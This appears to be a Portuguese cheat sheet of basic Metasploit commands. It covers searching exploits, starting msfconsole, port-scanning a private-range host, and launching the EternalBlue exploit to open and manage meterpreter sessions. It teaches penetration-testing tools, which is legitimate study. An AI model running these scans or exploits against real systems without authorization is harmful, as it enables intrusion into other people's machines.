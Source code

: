 # Comandos básicos do Metasploit-Framework

## Listar base de exploits do Kali Linux

$searchsploit <name service> [smb, dns, http, smtp, ftp, Apache, ProFTPd, vsftpd, samba, etc]

## Diretório do Metasploit-Framework

$ls -l /usr/share/metasploit-framework

## Run Metasploit-Framework

$sudo service postgresql start

$sudo msfdb init

$sudo msfconsole

msf > db_status

msf > help

msf > help search

msf > history

msf > show [auxiliary, exploits, payloads, options, targets, advanced, encoders, nops]

msf > search scanner

msf > search name:mysql

msf > search type:exploit platform:windows

msf > search type:exploit rank:great

msf > search cve:2022 platform:windows type:exploit

msf > grep http search oracle

msf > search type:auxiliary portscan

msf > use auxiliary/scanner/portscan/tcp

msf  auxiliary(scanner/portscan/tcp) > info

msf  auxiliary(scanner/portscan/tcp) > show options

msf  auxiliary(scanner/portscan/tcp) > set PORTS 1-1024

msf  auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.123

msf  auxiliary(scanner/portscan/tcp) > run

msf  auxiliary(scanner/portscan/tcp) > back

msf > connect 192.168.1.123 23

msf > exit

## Run Exploit Sessions in Backgroung

msf exploit(windows/smb/ms17_010_eternalblue) > exploit

meterpreter > background

msf exploit(windows/smb/ms17_010_eternalblue) > sessions

msf exploit(windows/smb/ms17_010_eternalblue) > sessiosn -i 1

meterpreter >

msf > jobs

msf > kill 0

msf > sessions -l

